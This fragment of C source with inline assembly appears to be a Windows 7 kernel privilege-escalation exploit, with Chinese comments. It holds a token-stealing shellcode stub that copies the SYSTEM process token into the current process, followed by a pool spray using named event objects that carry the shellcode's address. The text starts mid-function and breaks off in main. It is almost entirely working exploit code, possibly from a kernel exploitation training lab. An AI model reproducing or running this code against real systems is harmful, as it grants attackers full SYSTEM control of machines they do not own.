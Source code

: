 ```c
	__asm
	{
		nop;
		nop;
		nop;
		nop;
		pushad; Save registers state

		; Start of Token Stealing Stub
		xor eax, eax; Set ZERO
		mov eax, fs:[eax + KTHREAD_OFFSET]; Get nt!_KPCR.PcrbData.CurrentThread
		; _KTHREAD is located at FS : [0x124]

		mov eax, [eax + EPROCESS_OFFSET]; Get nt!_KTHREAD.ApcState.Process

		mov ecx, eax; Copy current process _EPROCESS structure

		mov edx, SYSTEM_PID; WIN 7 SP1 SYSTEM process PID = 0x4

		SearchSystemPID:
			mov eax, [eax + FLINK_OFFSET]; Get nt!_EPROCESS.ActiveProcessLinks.Flink
			sub eax, FLINK_OFFSET
			cmp[eax + PID_OFFSET], edx; Get nt!_EPROCESS.UniqueProcessId
			jne SearchSystemPID

		mov edx, [eax + TOKEN_OFFSET]	; Get SYSTEM process nt!_EPROCESS.Token
		mov[ecx + TOKEN_OFFSET], edx	; Replace target process nt!_EPROCESS.Token
										; with SYSTEM process nt!_EPROCESS.Token
		; End of Token Stealing Stub

		popad; Restore registers state

		ret;
	}
}

int main()
{

	printf("shellcode address : 0x%p", &shellCode);

	WCHAR lpName[0xf0 / 2] = { 0 };// 因为一个Unicode是2个字节
	memset(lpName, '\x41', sizeof(lpName));

	for (int i = 0; i < 256; i++) {
		*(PDWORD)((char *) lpName + 4 ) = (DWORD32)& shellCode; // 这里为什么要先 (char *)，因为一个WCHAR是2个字节
																// 要是不(char *)的话会跑到(char *)lpName + 8的位置
		*(PDWORD)((char *) lpName + 0xf0 - 4) = i;
	}

	HANDLE spray[256] = { 0 };

	for (int i = 0; i < 256; i++) {
		spray[i] = CreateEventW(NULL, FALSE, FALSE, (LPCWSTR) lpName);
	}

	for (int i = 0; i < 256; i++) {
		CloseHandle(spray[i]);
	}

	int value = 0x1;
	int *payload = &value;
```